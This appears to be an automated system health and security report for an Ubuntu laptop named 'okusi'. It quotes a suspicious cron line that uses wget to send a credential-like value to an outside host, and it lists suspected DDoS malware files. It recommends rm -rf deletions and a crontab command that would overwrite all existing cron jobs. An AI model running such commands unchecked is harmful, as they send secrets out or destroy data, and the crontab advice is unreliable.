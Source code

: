 # System Health Report - okusi

## System Overview
- **Hostname**: okusi (localhost)
- **OS Version**: Ubuntu 24.04.2 LTS (noble)
- **Kernel**: Linux 6.8.0-60-generic
- **Uptime**: 5 days, 4:42 hours
- **Load Average**: 0.49, 0.43, 0.37 (normal)

## Hardware Configuration
- **CPU**: Intel Core i9-13900HX (32 cores/threads, 24 physical cores)
- **Memory**: 32GB DDR5-5600 (2x16GB SODIMMs)
- **Storage**: 
  - Primary: Samsung MZVL21T0HCLR 1TB NVMe SSD
  - Secondary: Kingston SNV2S1000G 1TB NVMe SSD
- **GPU**: NVIDIA GeForce RTX 4070 Max-Q
- **System**: Lenovo Legion Pro 5 16IRX8

## Storage Status
- **Root filesystem (/)**: 184GB used / 293GB total (63% usage)
- **Home directory (/home/sysadmin)**: 388GB used / 497GB total (79% usage)
- **AI partition (/ai)**: 719GB used / 916GB total (83% usage)
- **Boot partition**: 192MB used / 1.8GB total (11% usage)
- **EFI partition**: 23MB used / 511MB total (5% usage)

## Memory Usage
- **Total RAM**: 32GB
- **Used**: 20GB (63%)
- **Available**: 10GB (31%)
- **Swap**: 1GB used / 6GB total (17% usage)
- **Buffer/Cache**: 2.9GB

## CPU Performance
- **Current Load**: 0.49 (low, healthy)
- **Top CPU consumers**:
  - ssh process: 29.6% CPU
  - Chrome processes: Multiple instances consuming 5-7% each
  - check-new-release: 6.4% CPU
  - Claude application: 3.2% CPU

## Network Configuration
- **Ethernet (enp12s0)**: UP - 192.168.5.106/24
- **WiFi (wlp0s20f3)**: UP - 192.168.1.25/24 (multiple IPv6 addresses)
- **Docker bridge**: DOWN - 172.17.0.1/16
- **Listening services**:
  - SSH (port 22)
  - MySQL (port 3306, localhost only)
  - SMTP (port 25)
  - DNS (port 53, localhost)
  - CUPS (port 631, localhost)
  - Ollama (port 11434, localhost)

## System Health
- **Failed Services**: Apache2 service is failed
- **Recent Errors**: 
  - Bluetooth SCO packet errors (hardware-related)
  - Canonical Livepatch CVE fetch failures
- **Authentication**: Multiple sudo authentication failures on 2025-06-16
- **Updates**: System appears up to date

## Critical Issues

### 🚨 POTENTIAL SECURITY COMPROMISE DETECTED
**Suspicious cron job with external communication**:
```
*/10 * * * * wget -q -O /dev/null 'https://okusiassociates.com/ip.php?2=okusi-th&1=**Farkle420**'
```
This cron job contacts an external server every 10 minutes with what appears to be authentication credentials, which is highly suspicious behavior.

### 🚨 ROOTKIT SCANNER WARNINGS
**Possible Linux.Xor.DDoS malware detected**:
- `/tmp/tt/.env`
- `/tmp/tt/settings.py` 
- `/tmp/tt/knowledgebase.py`

**Suspicious files found** in various system directories that could indicate compromise.

### 🚨 FAILED CRITICAL SERVICE
Apache2 web server service has failed and is not running.

## Warnings

### ⚠️ HIGH DISK USAGE
- **/home/sysadmin**: 79% full (388GB/497GB) - approaching critical threshold
- **/ai partition**: 83% full (719GB/916GB) - high usage, monitor closely

### ⚠️ AUTHENTICATION SECURITY CONCERNS
Multiple sudo authentication failures detected on 2025-06-16, indicating possible unauthorized access attempts or user credential issues.

### ⚠️ NETWORK SECURITY
Packet sniffers detected on network interfaces (likely legitimate system services but should be verified).

### ⚠️ USER ACCOUNT ANOMALY
User 'sysadmin' shows as "deleted or never logged" in lastlog, which is unusual for an active system.

## Recommendations

### IMMEDIATE ACTIONS REQUIRED

1. **Investigate Security Compromise**:
   ```bash
   # Remove suspicious cron job immediately
   crontab -e  # Remove the wget line
   
   # Investigate suspicious files
   ls -la /tmp/tt/
   file /tmp/tt/*
   
   # Check for unauthorized access
   last -f /var/log/wtmp
   grep -i "failed\|invalid" /var/log/auth.log
   ```

2. **Malware Removal**:
   ```bash
   # Remove suspected DDoS malware files
   rm -rf /tmp/tt/
   
   # Run full system scan
   clamscan -r /
   ```

3. **Fix Apache Service**:
   ```bash
   systemctl status apache2
   journalctl -u apache2 --no-pager
   systemctl restart apache2
   ```

### DISK SPACE MANAGEMENT

4. **Clean up /home/sysadmin** (79% full):
   ```bash
   # Find large files
   find /home/sysadmin -type f -size +100M -exec ls -lh {} \;
   
   # Clean browser cache, downloads, temp files
   rm -rf /home/sysadmin/.cache/*
   ```

5. **Clean up /ai partition** (83% full):
   ```bash
   # Identify large files in AI partition
   du -h /ai | sort -hr | head -20
   
   # Remove old model files or datasets if safe
   ```

### SECURITY HARDENING

6. **Reset sudo authentication**:
   ```bash
   passwd sysadmin  # Reset password if compromised
   ```

7. **Review all cron jobs**:
   ```bash
   crontab -l -u root
   ls -la /etc/cron.*
   ```

8. **Monitor network connections**:
   ```bash
   netstat -tulpn | grep ESTABLISHED
   ss -tulpn
   ```

### SYSTEM MAINTENANCE

9. **Address Bluetooth errors** (if needed):
   ```bash
   systemctl restart bluetooth
   ```

10. **Monitor system resources**:
    ```bash
    # Set up disk usage monitoring
    echo "df -h | mail -s 'Disk Usage Report' root" | crontab -
    ```

**PRIORITY**: Address the security concerns immediately before performing any other maintenance tasks. The suspicious cron job and potential malware presence require urgent investigation and remediation.